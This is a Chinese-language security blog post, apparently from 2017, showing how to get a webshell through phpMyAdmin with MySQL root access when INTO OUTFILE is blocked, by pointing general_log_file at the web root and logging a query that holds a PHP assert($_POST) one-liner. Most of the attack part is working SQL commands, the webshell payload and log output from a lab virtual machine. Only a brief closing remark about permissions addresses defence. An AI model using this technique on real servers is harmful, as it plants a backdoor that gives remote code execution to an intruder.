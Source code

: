 ```yaml
---
date: "2017-03-23T00:00:00Z"
description: 假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
title: phpMyAdmin新姿势getshell
url: /archivers/2017-03-05/1
---
```



## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：

![enter description here](https://images.payloads.online/dc954250-4f5e-11ec-934f-00d861bf4abb.jpg)

可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```
![enter description here](https://images.payloads.online/dcd90242-4f5e-11ec-8851-00d861bf4abb.jpg)

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。

![enter description here](https://images.payloads.online/dd2a46fc-4f5e-11ec-9bc0-00d861bf4abb.jpg)

经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~

![enter description here](https://images.payloads.online/dd69df10-4f5e-11ec-ab91-00d861bf4abb.jpg)

目前是OFF状态，也就是不保存SQL到日志文件中。

![enter description here](https://images.payloads.online/ddac5eee-4f5e-11ec-9911-00d861bf4abb.jpg)

这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：

![enter description here](https://images.payloads.online/ddedad40-4f5e-11ec-aeb0-00d861bf4abb.jpg)

我们去主机上的目录里看看这个文件是否存在：

![enter description here](https://images.payloads.online/de30bdec-4f5e-11ec-a931-00d861bf4abb.jpg)

贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```
![enter description here](https://images.payloads.online/de74f71e-4f5e-11ec-a2df-00d861bf4abb.jpg)

贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：
![enter description here](https://images.payloads.online/deb692dc-4f5e-11ec-86f7-00d861bf4abb.jpg)

（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```

![enter description here](https://images.payloads.online/df0216b2-4f5e-11ec-b34f-00d861bf4abb.jpg)

我们再去看看站点下是否创建了这个文件：



![enter description here](https://images.payloads.online/df450260-4f5e-11ec-9893-00d861bf4abb.jpg)


创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```

![enter description here](https://images.payloads.online/dfa3cf84-4f5e-11ec-a772-00d861bf4abb.jpg)

我们访问看看~

![enter description here](https://images.payloads.online/dfee1ddc-4f5e-11ec-a0dc-00d861bf4abb.jpg)

已经解析php了，我们同样测试一下是否能执行php代码吧 ~

![enter description here](https://images.payloads.online/e02a9848-4f5e-11ec-b1db-00d861bf4abb.jpg)

贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~
